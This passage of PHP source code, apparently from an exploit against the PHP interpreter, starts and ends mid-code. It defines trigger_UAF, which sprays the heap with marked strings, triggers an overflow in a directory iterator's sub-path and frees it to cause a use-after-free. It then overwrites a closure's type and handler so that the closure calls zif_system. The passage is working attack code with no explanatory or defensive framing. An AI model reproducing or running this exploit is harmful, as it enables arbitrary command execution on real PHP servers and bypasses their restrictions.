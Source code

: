 ```php
        }
    }

    if ($closure_handlers == 0) {
        exit("bad closure handlers\n");
    }

    return $closure_handlers + $zif_system_offset;
}

function trigger_UAF($zif_system) {
    global $it_arr;

    // fill memory chunk with lots of 0x140-size strings,
    // ensure address of some strings that are exactly starting with prefix 0040 or 0080.
    $str_arr = [];
    for ($i = 0; $i < 0x2024; $i++) {
        $str_arr[$i] = str_repeat('E', 0x140 - 0x20);
        $str_arr[$i][0] = "I";
        $str_arr[$i][1] = "L";
        $str_arr[$i][2] = "I";
        $str_arr[$i][3] = "K";
        $str_arr[$i][4] = "E";
        $str_arr[$i][5] = "P";
        $str_arr[$i][6] = "H";
        $str_arr[$i][7] = "P";
    }

    $f = NULL;
    while (1) {
        // init sub_path
        $it = create_RDI();
        $sub_it = $it->getChildren();

        // trigger overflow
        foreach($sub_it as $file) {}

        $data = $sub_it->getSubPath();
        if (substr($data, 0x18, 8) == "ILIKEPHP") {
            // trigger UAF
            unset($sub_it);
            $f = function(){};
            break;
        } else {
            // prevent double freeing
            $it_arr[] = $sub_it;
        }
    }
    // modify closure
    // 1. function type: internal function
    // 2. function handler: zif_system
    for ($i = 0; $i < 0x2024; $i++) {
        // 1. function type: internal function
        // zend_closure.function.internal_function.type = 0x38
        // zend_string_header = 0x18
        write8($str_arr[$i], 0x38 - 0x18, 0);

        // 2. function handler: zif_system
        // zend_closure.function.internal_function.handler = 0x70
        // zend_string_header = 0x18
        write64($str_arr[$i], 0x70 - 0x18, $zif_system);
    }

```